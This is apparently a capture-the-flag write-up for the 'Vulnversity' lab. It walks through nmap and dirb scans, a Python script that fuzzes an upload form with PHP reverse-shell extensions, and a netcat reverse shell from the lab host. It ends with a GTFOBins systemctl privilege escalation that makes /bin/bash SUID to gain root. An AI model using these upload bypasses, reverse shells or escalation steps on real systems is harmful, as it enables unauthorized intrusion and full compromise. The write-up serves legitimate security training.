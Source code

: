 # Vulnversity
  Learn about active recon, web app attacks and privilege escalation.
  
![](Images/JFYfwL8.png)

## Nmap scan
Here is the task 2 answers all in this nmap scan. 
```text
# Nmap 7.91 scan initiated Sun May 30 18:01:18 2021 as: nmap -sV -sC -oN nmap/vuln 10.10.205.62
Nmap scan report for 10.10.205.62
Host is up (0.22s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-05-30T08:32:09-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-30T12:32:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 18:02:18 2021 -- 1 IP address (1 host up) scanned in 59.24 seconds
```
# Web page
According to the nmap scan we found nice web page in the port 3333
![](Images/webpage.png)

## Task 3 
1.  What is the directory that has an upload form page?
Here I'm using dirb because it's my favourite tool for brute-forcing urls
```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.log
START_TIME: Sun May 30 18:26:08 2021
URL_BASE: http://10.10.205.62:3333/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.205.62:3333/ ----
==> DIRECTORY: http://10.10.205.62:3333/css/
==> DIRECTORY: http://10.10.205.62:3333/fonts/
==> DIRECTORY: http://10.10.205.62:3333/images/
+ http://10.10.205.62:3333/index.html (CODE:200|SIZE:33014)
==> DIRECTORY: http://10.10.205.62:3333/internal/
==> DIRECTORY: http://10.10.205.62:3333/js/
```
You can upload images from /internal/ directory.
![](Images/upload.png)

## Task 4
1. Try upload a few file types to the server, what common extension seems to be blocked? 
Let's see we can upload some php revshells and get the access to this machine. Seems like we can't upload .php files. 

They said to use burpsuit for fuzz the upload form. But here allow me to show new script I make to fuzz the upload form. This script turn our php file to correct format.
```python
#! /usr/bin/env python3
import requests
import os

ip = "10.10.155.48"
url = f"http://{ip}:3333/internal/index.php"

old_filename = "php-revshell.php"
filename = "php-revshell"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(old_filename, new_filename)

    files = {"file": open(new_filename, "rb")}
    r = requests.post(url, files=files)

    if "Extensions not allowed" in r.text:
        print(f"{ext} not allowed")
    else:
        print(f"{ext} allowed")

    old_filename = new_filename

```

2. Run this attack, what extension is allowed?
If we look at the our result we got hit with .phtml extension.

3. What is the name of the user who manages the web server?
Now we need to get into the machine. Go ahead setup a listener to our port. http://10.10.229.33:3333/internal/uploads/ here we can found our reverse shell.
```bash
┌─[✗]─[visith@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.218] from (UNKNOWN) [10.10.229.33] 60408
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:47:05 up 7 min,  0 users,  load average: 0.05, 0.54, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@vulnuniversity:/$
```
If we look into the /etc/passwd list we can see bill and root. So answer is **bill**.

4. What is the user flag?
Its in the bill's home directory. (cd /home/bill && cat user.txt)

## Task 5

1. On the system, search for all SUID files. What file stands out?

find / -perm -4000 2>/dev/null
```bash
www-data@vulnuniversity:/home/bill$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
/bin/systemctl not common. So answer was the **/bin/systemctl**

2. Become root and get the last flag (/root/root.txt)
Now we know systemctl is SUID . Let's see how we can use this to get root. 
Link to source - https://gtfobins.github.io/gtfobins/systemctl/

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Now we successfully change permission

```bash
www-data@vulnuniversity:/$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```

I do some changes in the script gives by GTFO bins. Now I can simply type 'bash -p' and get root. It tells we in www-data but in the script we change the group to root . So now we can head over to the cd /root/ and get the flag.

```bash
www-data@vulnuniversity:$ bash -p
bash -p
bash-4.3# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
```
